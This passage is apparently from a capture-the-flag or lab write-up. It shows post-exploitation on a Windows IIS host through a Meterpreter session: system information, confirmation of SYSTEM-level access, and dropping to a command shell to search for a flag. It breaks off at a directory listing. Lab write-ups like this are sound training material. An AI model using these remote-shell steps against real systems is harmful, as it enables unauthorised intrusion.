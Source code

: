 <figure><img src="../../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Confirm this with `sysinfo`

```bash
meterpreter > sysinfo
Computer        : AD-IIS
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

* Get the user that the server is running as with `getuid`

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> 📌 No privilege escalation needed since the user is `NT AUTHORITY\SYSTEM`

* Find the flag, running `meterpreter` commands

```bash
meterpreter > pwd
c:\windows\system32\inetsrv

meterpreter > shell
Process 3464 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1457]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>cd \  
cd \

c:\>dir
dir
```